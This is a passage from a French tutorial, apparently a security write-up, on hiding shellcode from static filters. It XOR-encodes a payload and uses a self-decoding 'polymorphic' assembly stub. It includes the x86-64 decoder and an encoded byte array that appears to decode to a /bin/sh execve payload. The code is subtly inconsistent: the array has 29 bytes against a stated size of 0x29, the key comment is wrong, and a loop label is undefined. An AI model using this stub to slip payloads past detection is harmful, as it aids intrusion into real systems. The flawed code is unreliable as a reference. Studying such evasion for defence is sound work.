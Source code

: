 Pour pallier ce problème, nous allons appliquer un xor sur notre shellcode afin de le rendre méconnaissable - et donc non-détectable par un système d'analyse statique représenté basiquement par un filtre -, puis, à l'aide d'un shellcode « wrapper », appelé polymorphique, nous allons mettre notre shellcode chiffré sur la pile d'exécution, nous allons charger les bytes et appliquer à nouveau un xor avec la même clé que celle utilisée lors du chiffrement, placer le shellcode ainsi déchiffré dans une zone réservée de la pile, et jumper dessus, afin de l'exécuter.

Ainsi, nous pouvons exécuter notre shellcode initial, tout en contournant le filtrage implémenté.

Nous vous proposons notre implémentation, en 64 bits, sur une architecture intel.

Nous pouvons décomposer ce shellcode en trois grandes étapes :
Initialisation des registres


* Placement sur shellcode chiffré sur la pile d'exécution ;
```asm
jmp short data ; push the xored shellcode on the stack
[...]
data :
call decrypt
shellcode: db  0x1b ,0x62 ,0xac ,0x04 ,0x04 ,0x0d ,0x09 ,0x1b ,0xec ,0x7c ,0x7c ,0x31 ,0x3a ,0x3d ,0x7c ,0x20 ,0x3b ,0x1b ,0x92 ,0xbc ,0x5b ,0x04 ,0x07 ,0x0c ,0x39 ,0x68 ,0x0b ,0x5c ,0x56
```
* Placement de l'adresse du premier byte du shellcode chiffré dans rsi, ce qui nous servira par la suite lors du déchiffrement ;

* Positionnement de l'adresse du shellcode dans le registre rsp, ce qui nous permettera de jumper dessus une fois déxoré ;

* Placement de l'adresse du shellcode dans rdi, ce qui nous permettra d'écrire les bytes déchiffrés à la place des anciens ;
```asm
pop rsi
sub rsp,0x29
lea rdi, [rsp+0x0]
```
* Placement de la taille du shellcode dans dl, qui fera office de variable de test désincrémentée à chaque itération pour notre boucle de déchiffrement ;

* Placement de la clé de déchiffrement dans le registre bl.
```asm
xor rdx, rdx 
push rdx
pop rbx 
mov dl, 0x29 ; shellcode size
mov bl, 0x53 ; key ('N')
```

 
Déchiffrement du shellcode


* Une fois dans la boucle, placement du byte courant pointé par rsi de notre shellcode chiffré dans eax, et incrémentation de rsi  ;
```asm
lodsb ; load the current byte [rsi] into eax ; rsi ++
```
* Déchiffrement du byte courant ;
```asm
xor eax, ebx ; unxor with the key
```
* Remplacement du byte courant par sa version déchiffrée (position rdi), et incrémentation de rdi ;
```asm
stosb ; store the unxored byte ; rdi ++
```
* Décrémentation de la variable de test edx, et passage à la prochaine itération tant qu'elle n'est pas nulle.
```asm
dec edx ; next byte
jnz boucle ; again, while the shellcode is not fully unxored
```